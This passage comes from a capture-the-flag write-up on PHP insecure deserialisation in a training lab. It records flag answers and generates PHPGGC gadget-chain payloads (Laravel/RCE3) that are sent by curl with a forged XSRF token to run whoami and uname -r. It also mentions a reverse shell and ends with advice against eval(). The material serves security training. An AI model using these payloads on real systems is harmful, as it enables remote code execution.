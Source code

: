 After this, the application deserialised my malicious object, triggering the reverse shell connection back to my machine. Soo, in the cmd I could see the flag:
> **Answer:** `THM{GOT_THE_SH#LL}`



What is the output of the whoami command after getting the shell?
> **Answer:** `www-data`

## Task 7: Automation Scripts

What is the vector for exploiting CodeIgniter4/FR1 as per the PHPGGC?
In the terminal run the command`php -l CodeIgniter4/FR1` and get information.

> **Answer:** `_toString`



What is the output of the whoami command on the vulnerable Laravel application?
First I enter in `http://10.10.53.217:8089/get-key` and get the key.

Then I generated the appropriate payload using PHPGGC:
```bash
php phpggc Laravel/RCE3 system 'whoami'
```
{: file="Whoami command to the vulnerable Laravel application"}

And in the cmd I executed the payload with the obtained key:
```bash
curl 10.10.159.99:8089 -X POST -H 'X-XSRF-TOKEN: key' ! head -n 2 
```
{: file="Payload to the vulnerable Laravel application"}

And got the name:
> **Answer:** `root`


What is the output of the uname -r command on the vulnerable Laravel application?

I started by running the command `php phpggc -b Laravel/RCE3 system ‘uname -r’`, which will give the Base64 encoded payload.

Then, I translated it to XSRF Token value in the url `http://10.10.159.99:8089/cve.php?app_key=[KEY]` and excute the command in the cmd:
```bash
curl 10.10.159.99:8089 -X POST -H 'X-XSRF-TOKEN: [XSRFTokenKey]' ! head -n 2 
```
{: file="uname -r command on the vulnerable Laravel application"}


> **Answer:** `5.15.0–1075-aws`


## Task 8: Mitigation Measures

Is it a good practice to blindly use the eval() function in your code? (yea/nay)
> **Answer:** `nay` <br>
Avoid using eval() and exec() functions, as they can execute arbitrary code and pose a significant security risk.
